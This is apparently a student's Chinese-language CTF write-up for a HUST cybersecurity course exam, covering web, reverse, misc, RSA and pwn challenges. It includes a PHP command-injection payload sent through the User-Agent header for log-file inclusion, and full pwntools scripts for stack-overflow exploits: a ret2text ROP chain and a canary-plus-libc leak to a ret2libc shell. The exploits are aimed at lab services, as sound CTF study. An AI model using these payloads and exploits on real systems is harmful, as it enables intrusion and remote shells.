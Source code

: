 ```yaml
---
title: HUST - 网安实践4结课CTF试题
image: "https://i.postimg.cc/sXXV0rFM/7c1252b73d14f048c18e847d38cd7a12.jpg"
published: 2024-12-19
description: 2022届网安实践4CTF试题
tags: [CTF, HUST]
category: CTF
draft: false
---
```


由于课程关闭，无法进行复现，因此主要使用语言描述。

## Web1-简单文件上传

看源码发现过滤了php等关键词，但是处理的时候只删除了一次，所以可以进行双写绕过。传入木马文件后蚁剑连接得到flag。

## Web2-文件包含进阶

通过 POST 请求传入 hust=/var/log/apache2/access.log，设置 User-Agent 为 \<?php system("ls")?\>成功看到回显，再次传入\<?php system("cat fl4g.php");?\>，得到flag。

## Reverse1-我的ida怎么坏了

课程原题，不再重复。

## Reverse2-带衣服的程序

看了一眼，发现套了upx壳，使用upx -d脱壳。

## MISC1-我的报告呢

根据提示是pdf文件，在流量包中找到文件，此外还在myname里找到了pdf的密码。打开pdf后没有啥有效信息，一开始以为是wbStego4.3open加密，结果弄不出来，最后把它转成了word，

![image-20241202150333684](assets\image-20241202150333684.png)

## MISC2-BB空间

伪加密，修正后解压得到二维码，依据各个文件名确定位置拼出二维码，扫描后得到一串数字，结合题目，在bilibili中搜索，找到一个用户，定位到他的最新视频。发现在视频简介中说明了视频中每个句子对应的符号。下载音频用audacity比对摘写，得到一串摩斯密码，解码后得到flag。

## Crypto1-奇怪的RSA

写完以后跑了一下发现有问题，说是没有逆，猜测是ehephi不互素了，验证了一下发现e和q-1不互素。改一下代码，转化到模p下来求解。

```python
# coding=gbk
import gmpy2
from Crypto.Util.number import *
from math import ceil, sqrt
from random import choice
from gmpy2 import *
e = 65537
p = 7861284553623919323985859832007323477428670056827930254749054233285002288342251190742960221895692365421571559655657906508077200676209583363642503410091987
q = 12190036856294802286447270376342375357864587534233715766210874702670724440751066267168907565322961270655972226761426182258587581206888580394726683112820379
c = 82847779812851057890043530756832889487859832046106654912667214872414017036311911272053848097280235944007447512360040509400105818809700630697569934731411705662409382305951636397690516111461818016905840116265739235873533920070957680510890443904586797027770509200983712548635748894266511224103615999307792279118
n = p*q
# _gcd = gcd(e,(p-1)*(q-1)) # 65537
gcd_q = gcd(e,p-1) # 1

d = inverse(e,p-1)
m = pow(c,d,p)
print(long_to_bytes(int(m)))
```

## Crypto2-AES加密

## PWN1-ret2text

常规栈溢出，程序也给了system和/bin/sh。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

#p = process("./2pwn.bin")
p = remote('172.17.0.15',17831)

binsh = 0x4023FF
system = 0x401B21
pop_rdi_ret = 0x401c73

payload = b'a'*72+p64(pop_rdi_ret)+p64(binsh)+p64(system)
p.sendline(payload)

p.interactive()
```



## PWN2-canary

程序没有给system或/bin/sh，也没说libc版本。所以要利用puts泄露libc版本和libc基址。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

p = process("./pwn.bin")
elf = ELF("./pwn.bin")
#p = remote('172.17.0.15',14375)

pop_rdi = 0x401343
ret=0x40101a
binsh = 0x404058
system=0x4010b0

payload1=b'a'*72
p.sendlineafter('name?',payload1)

p.recvuntil(b'a'*72)
canary=u64(p.recv(8))-0xa

print(hex(canary))

payload = cyclic(72)+p64(canary)+p64(0)+p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(elf.sym["main"])

p.sendlineafter('stack!',payload)

puts = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts))

libc=LibcSearcher("puts",puts)

libcbase=puts-libc.dump('puts')
system=libcbase+libc.dump('system')
binsh=libcbase+libc.dump('str_bin_sh')
print(hex(system))
print(hex(binsh))

payload=cyclic(72)+p64(canary)+p64(0)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendlineafter('name?',b'1')
p.sendlineafter('stack!',payload)
p.interactive()
```


